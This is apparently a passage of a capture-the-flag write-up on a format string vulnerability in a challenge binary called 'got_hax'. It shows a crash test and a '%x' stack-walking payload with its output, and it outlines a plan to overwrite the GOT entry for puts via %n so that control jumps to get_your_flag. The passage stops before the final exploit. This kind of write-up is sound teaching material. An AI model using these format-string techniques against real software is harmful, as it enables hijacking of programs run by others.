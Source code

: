 ```c
      puts("Sorry, try again.");
    }
    else {
      puts("Can you read? That\'s not even on the scale!");
    }
  }
  else {
    puts("Usage: ./got_hax [name]");
  }
  return 0;
}
```

The thing to note here is that there is a `printf` vulnerability where user
controlled input ends up being printed without proper sanitization. If we pass
in a username of, say, `%s%s%s%s%s%s%s` we should get a segmentation fault as
`printf` takes arguments off of the stack and treats them as character
pointers. Since the values at these addresses probably aren't all valid
pointers, we should get a crash. We see this when we test the following:

```c
$ ./got_hax %s%s%s%s%s
On a scale of 1 to 10, how sweet are your hax?
$ 1
So you say you got hax...but not enough to get the flag!
Segmentation fault (core dumped)
```

We also noticed that right above `main` in Ghidra was the function
`get_your_flag`. This function `open`'s the `key` file, `read`'s the file, and
`printf`'s the result. Somehow, we need to call this function.

## Strategy

The idea is to overwrite the GOT entry for `puts` (which is called immediately
after the `printf` that has our username) with the address for `get_your_flag`
from our symbol table. We can do this with the `%n` conversion character. This
character will store the number of characters written so far into the integer
that is pointed to by the corresponding argument. To do this, we need to know a
few things (note, I really recommend reading `man 3 printf` first):

1. Where our input lies on the stack. We need this because we will be treating
that input as a `int *` and writing the address of `get_your_flag` to this
location. We will call this number `offset_on_stack`. To figure this out we can
do one of two things:

    - Debug the program and look at the stack. This would work well for this
challenge, as we have the executable. We'll skip this for now though.

    - We can write a format string that walks up the stack with a few `%x` and
examine the output. We try this with something like the following:

      ```shell
      $ ./got_hax "aaaa|%x|%x|%x|%x|%x|%x|%x"
      On a scale of 1 to 10, how sweet are your hax?
      10
      So you say you got hax...but not enough to get the flag!
      Goodbye aaaa|ffb2aa74|27|0|f7f53fd0|a|61616161|7c78257cSorry, try again.
      ```
